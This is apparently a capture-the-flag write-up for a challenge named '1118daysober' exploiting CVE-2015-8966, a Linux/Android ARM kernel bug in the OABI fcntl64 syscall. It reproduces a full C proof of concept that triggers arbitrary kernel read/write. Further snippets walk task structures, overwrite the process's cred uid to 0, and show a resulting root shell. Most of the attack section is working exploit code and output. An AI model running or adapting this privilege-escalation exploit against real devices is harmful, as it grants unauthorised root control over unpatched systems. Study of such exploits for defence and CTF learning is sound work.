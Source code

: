 # 1118daysober

## PoC

- https://github.com/ThomasKing2014/android-Vulnerability-PoC/blob/master/CVE-2015-8966/poc.c

```
#define _GNU_SOURCE

#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/prctl.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <pthread.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <semaphore.h>
#include <sys/socket.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/wait.h>
#include <sys/ioctl.h>
#include <sys/utsname.h>
#include <sys/ptrace.h>

int try_to_read_kernel(){
  int pipefd[2];
  ssize_t len;
  ssize_t try_bytes = 4;
  
  pipe(pipefd);
  len = write(pipefd[1], (void*)0xc0008000, try_bytes);
  
  close(pipefd[0]);
  close(pipefd[1]);
  
  return len == try_bytes;
}

__attribute__((naked)) long sys_oabi_fcntl64(unsigned int fd, unsigned int cmd, unsigned long arg){
	
	__asm __volatile (
	"swi	0x9000DD\n"
	"mov	pc, lr\n"
	:   
	:
	:
	);
}

#define F_OFD_GETLK	36
#define F_OFD_SETLK	37
#define F_OFD_SETLKW 38


int main(int argc, char const *argv[]){
	int fd = open("/proc/cpuinfo", O_RDONLY);
	struct flock *map_base = 0;

	if(fd == -1){
		perror("open");
		return -1;
	}
	map_base = (struct flock *)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if(map_base == (void*)-1){
		perror("mmap");
		goto _done;
	}
	printf("map_base %p\n", map_base);
	memset(map_base, 0, 0x1000);
	map_base->l_start = SEEK_SET;
	if(sys_oabi_fcntl64(fd, F_OFD_GETLK, (long)map_base)){
		perror("sys_oabi_fcntl64");
	}
	// Arbitrary kernel read/write test
	if(try_to_read_kernel()){
		printf("pwnned !\n");
	}
	munmap(map_base, 0x1000);
_done:
	close(fd);
	return 0;
}
```

## Vuln

- kernel doesn't restore to user_ds. So, we can write any data at any kernel address.
- so that I can't force to restore user_ds.
- detail: https://thomasking2014.com/2016/12/05/CVE-2015-8966.html

## Exploit

- I use read data with o/r/w syscall. It doesn't use user space address, so kernel was not crashed.

```
int junofd = open("./tmp", O_WRONLY);
write(junofd, f_task, 4);
close(junofd);

int junofd2 = open("./tmp_cred", O_WRONLY);
write(junofd, f_task+400-4, 4);
close(junofd);
```

- save task_structure's next ptr to ./tmp and task's cred ptr to ./tmp_cred
- run until comm equals to `sh`.

```
write(pipefd[1], cred+0x30, 4);
read(pipefd[0], cred+4, 4);
write(pipefd[1], cred+0x30, 4);
read(pipefd[0], cred+8, 4);
write(pipefd[1], cred+0x30, 4);
read(pipefd[0], cred+12, 4);
write(pipefd[1], cred+0x30, 4);
read(pipefd[0], cred+16, 4);
write(pipefd[1], cred+0x30, 4);
read(pipefd[0], cred+20, 4);
write(pipefd[1], cred+0x30, 4);
read(pipefd[0], cred+24, 4);
write(pipefd[1], cred+0x30, 4);
read(pipefd[0], cred+28, 4);
write(pipefd[1], cred+0x30, 4);
read(pipefd[0], cred+32, 4);
```

- finally overwrite cred value (0x3e8 to 0x0)
- I moved binary file with `base64` command.

```
~ $ ./w
[+] gogo cred haha
do
done!
/home/user # id
uid=0(root) gid=0 groups=1000
```

